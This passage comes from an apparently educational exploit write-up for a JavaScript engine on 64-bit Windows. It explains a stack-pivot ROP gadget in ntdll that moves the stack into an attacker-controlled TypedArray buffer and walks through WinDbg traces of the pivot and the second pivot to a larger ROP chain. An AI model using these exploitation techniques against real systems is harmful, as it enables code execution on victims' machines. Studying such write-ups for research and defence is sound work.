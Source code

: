 And here are the parts that actually matter:

```text
00007fff`b8c4fda3 ff33            push    qword ptr [rbx]
[...]
00007fff`b8c4fda8 5c              pop     rsp
00007fff`b8bf500d 4883c440        add     rsp,40h
[...]
00007fff`b8bf5016 c3              ret
```

Of course, if you have followed along, you might be wondering what is the value of `@rbx` at the hijack point as we did not really spent any time talking about it. Well, if you scroll a bit up, you will notice that `@rbx` is the same value as `@rdx` which is a pointer to the `JSObject` describing `Target`.

1. The first line pushes on the stack the actual `JSObject`,
2. The second line pops it off the stack into `@rsp`,
3. The third line adds 0x40 to it which means `@rsp` now points into the backing buffer of the TypedArray which we fully control the content of,
4. And finally we return.

With this pivot, we have control over the execution flow, as well as control over the stack; this is good stuff :-). The ntdll module used at the time is available here [ntdll](https://github.com/0vercl0k/blazefox/blob/master/js-asserts/js.exe.local/ntdll.dll) (RS5 64-bit, Jan 2019) in case anyone is interested.

The below shows step-by-step what it looks like from the debugger once we land on the above stack-pivot gadget:

```text
0:000> bp ntdll+bfda2

0:000> g
Breakpoint 0 hit
ntdll!TpSimpleTryPost+0x5aeb2:
00007fff`b8c4fda2 f5              cmc

0:000> t
ntdll!TpSimpleTryPost+0x5aeb3:
00007fff`b8c4fda3 ff33            push    qword ptr [rbx] ds:000000d8`a93fce78=000002b2f7509140

[...]

0:000> t
ntdll!TpSimpleTryPost+0x5aeb8:
00007fff`b8c4fda8 5c              pop     rsp

[...]

0:000> t
ntdll!TpSimpleTryPost+0x11d:
00007fff`b8bf500d 4883c440        add     rsp,40h

[...]

0:000> t
ntdll!TpSimpleTryPost+0x126:
00007fff`b8bf5016 c3              ret

0:000> dqs @rsp
000002b2`f7509198  00007ff7`805a9e55 <- Pivot again to a larger space
000002b2`f75091a0  000002b2`f7a75000 <- The stack with our real ROP chain

0:000> u 00007ff7`805a9e55 l2
00007ff7`805a9e55 5c              pop     rsp
00007ff7`805a9e56 c3              ret
```